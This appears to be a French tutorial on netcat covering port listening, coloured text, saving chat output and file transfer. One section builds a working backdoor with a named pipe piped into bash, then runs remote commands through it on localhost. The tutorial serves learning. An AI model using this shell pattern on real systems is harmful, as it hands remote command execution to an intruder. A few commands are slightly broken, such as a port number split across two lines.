 # Découverte netstat

## Ouvrir un port

Sur un terminal, ouvrir un port

```bash
#serveur
netcat -l 8000
```

Sur un autre terminal, écouter le port

```bash
#client
netcat localhost 8000
```

Taper du texte et constater la conversation entre les deux terminaux

## Envoyer du texte coloré

```bash 
#\033   = code ascii 27 ESC    : 033 en base 8 = 3*8+3=27 en base 16
#\033[  = début séquence ansi
#afficher du texte coloré avec les codes ansi \033[<code>;<code>m      ....  \033[0m     \033=code ascii 27 ESC
# --color=always oblige à conserver les codes couleur (sinon ils sont supprimés dans le pipe)
printf "texte normal\033[0;31mtexte rouge\033[0mtexte normal" --color=always | netcat localhost 8000

#serveur
netcat -l 8000

#client
```

## Créer une porte dérobée

Sur un terminal, ouvrir un port

```bash
#serveur
netcat -l 8000
```

```bash
#client
#/tmp/pipe sert de canal de communication entre bash et notre serveur
#    netcat localhost 8000 | bash   // exécution des commandes par bash
#    bash > /tmp/pipe               // envoi des données dans le pipe
                                    // bash | tee /tmp/pipe
                                    // pour voir aussi le résultat côté client
#    netcat ... < /tmp/pipe         // les données du tuyau (le résultat de bash) sont renvoyés au serveur
mkfifo /tmp/pipe
netcat localhost 8000 < /tmp/pipe | bash | tee /tmp/pipe
```

Sur un autre terminal, envoyer le texte à bash


Depuis le serveur, envoyer des commandes bash. Constater que les commandes bash s'exéutent sur l'autre ordinateur.

```bash
# netcat -l 8000
touch /tmp/x.txt
ls  /tmp/x.txt
```

```bash
netcat localhost 8000 < /tmp/pipe | bash > /tmp/pipe
# RÉSULTAT
#   /tmp/x.txt
```
## Sauvegarder du texte

Sur un terminal, ouvrir un port

```bash
netcat -l 8000
```

Sur un autre terminal, envoyer le texte à bash

```bash
# serveur
netcat localhost 8000 > /tmp/chat.txt
# client
netcat localhost 8000 > /tmp/chat.txt
# serveur
ligne1
ligne2
ligne3
# client
^C
cat /tmp/chat.txt
```

## Transférer un fichier avec netcat

### Fichier texte

```bash
# serveur destinataire du fichier
netcat -l 8000 > fichier.test
# client éméteur du fichier
netcat -w 1 localhost 800
0 < index.html
```

### Fichier binaire

```bash
# serveur / réception de l'image
netcat -l 8000 > image.jpg
# client / envoi de l'image
netcat -w 1 localhost 8000 < image.jpg
echo "il faut maintenant ouvrir image.jpg pour visualiser"
echo "   vous pouvez utiliser tiv, feh, mspaint.exe, gimp, votre navigateur..."
```
